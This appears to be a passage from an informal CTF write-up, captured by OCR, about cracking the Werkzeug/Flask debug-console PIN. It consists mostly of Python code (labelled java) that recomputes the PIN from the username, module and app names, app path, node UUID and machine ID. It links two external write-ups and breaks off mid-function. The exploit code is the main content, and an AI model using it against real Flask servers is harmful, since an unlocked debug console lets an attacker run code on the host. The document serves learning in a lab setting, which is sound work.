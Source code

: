 ```java
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

- after that it doesn’t work
- so after more searching i reached that
    - https://ctftime.org/writeup/17955
    - https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/
- now let’s try this exploit

```java
import hashlib
import itertools
from itertools import chain

def crack_md5(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.md5()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.sha1()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
    probably_public_bits = [
            username,
            modname,
            appname,
            flaskapp_path ]
    private_bits = [
            node_uuid,
            machine_id ]

    h = hasher
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
```